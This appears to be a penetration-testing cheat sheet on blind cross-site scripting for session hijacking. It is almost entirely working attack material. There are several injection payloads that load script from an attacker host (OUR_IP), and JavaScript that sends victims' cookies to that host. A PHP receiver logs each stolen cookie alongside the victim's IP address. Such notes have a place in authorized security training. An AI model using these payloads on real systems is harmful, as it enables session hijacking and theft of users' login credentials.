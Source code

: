 #### Session Hijacking (Cookie Stealing)

Blind XSS: vulnerability is triggered on a page we don't have access to.

Remote Script:
```html
<script src="http://OUR_IP/script.js"></script>
```

Rename script.js to the input field so we can indicate which field is vulnerable. Try each field.

<script src="http://OUR_IP/username.js"></script>

<script src="http://OUR_IP/fullname.js"></script>

etc. 

Payloads:
```html
<script src=http://OUR_IP></script>

'><script src=http://OUR_IP></script>

"><script src=http://OUR_IP></script>

javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>

<script>$.getScript("http://OUR_IP")</script>
```


Write to script.js on local machine (one or the other):
```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;

new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

Host php server and create index.php in /tmp/tmpserver:
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```


